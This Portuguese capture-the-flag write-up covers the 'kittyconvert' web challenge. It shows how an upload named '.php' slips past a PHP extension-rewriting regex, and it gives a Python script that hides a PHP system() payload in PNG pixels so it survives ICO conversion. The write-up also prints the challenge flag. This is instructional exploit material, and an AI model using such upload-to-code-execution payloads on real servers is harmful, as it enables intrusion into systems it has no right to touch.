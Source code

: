 # kittyconvert

*Need to convert a file? Our kittens have got you covered!*

- *Web Exploitation*
- *Autor do writeup: [Luiz Felipe](https://github.com/LuizF14)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>

O desafio disponibiliza um website chamado KittyConvert que permite os usuários converter arquivos PNG para arquivos ICO. Ele também fornece o código-fonte do servidor que carrega o site. O objetivo do desafio é acessar a flag dentro do arquivo `flag.txt` localizado no diretório root do servidor.

## Parte I - Passando pela checagem de extensão
Ao analisar o código-fonte, notamos o trecho de código no arquivo `index.php`: 

{% code title="index.php" overflow="wrap" lineNumbers="true" %}

``` php
if (isset($_FILES['file'])) {
  $base_dir = "/var/www/html/";
  $ico_file = "uploads/" . preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]));
  
  if ($_FILES["file"]["size"] > 8000) {
    echo "<p>Sorry, your file is too large you need to buy Nitro.</p>";
  } else {
    require( dirname( __FILE__ ) . '/class-php-ico.php' );
    $ico_lib = new PHP_ICO( $_FILES["file"]["tmp_name"], array( array( 32, 32 ), array( 64, 64 ) ) );
    $ico_lib->save_ico( $base_dir . $ico_file );
    $success = true;
  }
}
```

{% endcode %}

A função `preg_replace` nesse código está checando se os arquivos sendo enviados tem alguma extensão. Caso eles tenham, a string `'ico'` é colocada no final do nome do arquivo. Isto apaga a possibilidade de mandar um arquivo `exploit.php` com algum código malicioso e então executá-lo ao requerir o path `/uploads/exploit.php`. No entanto, existe uma alternativa: se o arquivo enviado se chamar apenas `.php`, o código `preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]))` não adicionará a extensão `.ico`. Isso ocorre porque a expressão regular exige que haja pelo menos um caractere antes do primeiro ponto (.), o que não é o caso de `.php`.

## Parte II - Construindo o payload
Nós já temos uma parte do problema pronta: como executar código dentro do servidor. Mas nos deparamos com um obstáculo: o conteúdo do arquivo que enviamos é alterado pela classe `PHP_ICO`. Nosso desafio será criar um arquivo PNG que quando sofre as alterações descritas em `class-php-ico.php` gere um código php interessante.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}

``` python
from PIL import Image

im = Image.new("RGBA", (64,64), "white")
pixels = im.load()
payload = b'<?php    echo   system( "cat /flag.txt" );  ?>  '

for index, el in enumerate(zip(*[iter(payload)]*4)):
    if el[3] % 2 == 1: 
        print(f"Invalid alpha character")
    pixels[(index%64, index//64)] = (el[2],el[1],el[0],el[3])

im.save("exploit.png", "PNG")
```

{% endcode %}

Já conseguimos explorar uma vulnerabilidade que permite a execução de código dentro do servidor. Entretanto, enfrentamos um novo obstáculo: o conteúdo do arquivo enviado é modificado pela classe `PHP_ICO`.  

Nosso desafio agora é criar um arquivo PNG que, ao sofrer essas alterações pela classe `class-php-ico.php`, gere um código PHP funcional. Para isso, vamos codificar um payload dentro dos pixels da imagem, garantindo que, mesmo após a conversão, ele possa ser interpretado como código PHP executável.  

O código python a seguir cria um arquivo PNG legítimo com tamanho 64 por 64 e preenchido todo com pixels em branco. Em seguida, ele injeta os bytes da variável `payload` nos bytes da imagem. Vale ressaltar que, no formato PNG, as cores seguem o formato RGBA, enquanto que, no formato ICO, as cores seguem o formato BGRA. Por isso a linha de código `(el[2],el[1],el[0],el[3])` invés de `(el[0],el[1],el[2],el[3])`. Além disso, o código também corta o bit menos significativo do campo alpha, nos forçando a deixar somente bytes com o LSB (less significant bit) igual a zero como o valor de alpha. Por essa razão, o payload está formatado dessa maneira.  

Por fim, utilizando esse código para criar um arquivo PNG apropriado e o enviando de acordo o procedimento descrito na parte I, obteremos a flag:
```
x3c{b1tm4p5_4r3_s1mpl3_6u7_7h3_4lph4_1s_w31rd}
```
